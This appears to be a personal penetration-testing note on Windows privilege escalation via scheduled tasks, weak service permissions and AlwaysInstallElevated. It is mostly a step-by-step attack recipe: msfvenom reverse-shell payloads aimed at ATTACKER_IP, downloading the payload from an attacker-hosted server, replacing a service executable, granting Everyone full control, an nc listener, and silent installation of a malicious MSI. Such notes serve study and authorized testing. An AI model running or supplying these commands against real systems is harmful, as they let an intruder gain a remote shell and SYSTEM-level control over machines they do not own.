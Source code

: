 Notes about privilege escalation on [[Windows]].

## Scheduled Tasks

[[Windows/Enumeration#Scheduled Tasks]]

Check scheduled tasks. Can you overwrite the executable being ran?

## Services

[[Windows/Enumeration#Windows Services]]

Check services. Can you overwrite the service executable?

Generate reverse shell payload on attacking computer:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o payload.exe
```

Run server on attacking computer (defaults to port `8000`):

```bash
python3 -m http.server
```

Download payload on target computer:

```powershell
wget http://ATTACKER_IP:8000/payload.exe -O payload.exe
```

Replace server executable with malicious payload:

```powershell
move payload.exe C:\target\location\service-name.exe
```

Grant permission to executable:

```powershell
icacls C:\target\location\service-name.exe /grant Everyone:F
```

Set up reverse listener on attacking computer:

```bash
nc -lvnp ATTACKER_PORT
```

Wait for service to run on target computer, or try to force restart if you have privileges:

```powershell
sc.exe stop <service-name>
sc.exe start <service-name>
```

Note: Use `sc.exe` in PowerShell or `sc` in Command Prompt.

## AlwaysInstallElevated

[[Windows/Enumeration#AlwaysInstallElevated]]

Check if `AlwaysInstallElevated` is enabled.

Generate a malicious `.msi` on attacking computer, e.g. using `msvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f msi -o malicious.msi
```

Transfer the malicious `.msi`.

Execute on the target computer:

```
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

## Related

- [[Windows]]
- [[Windows/Enumeration]]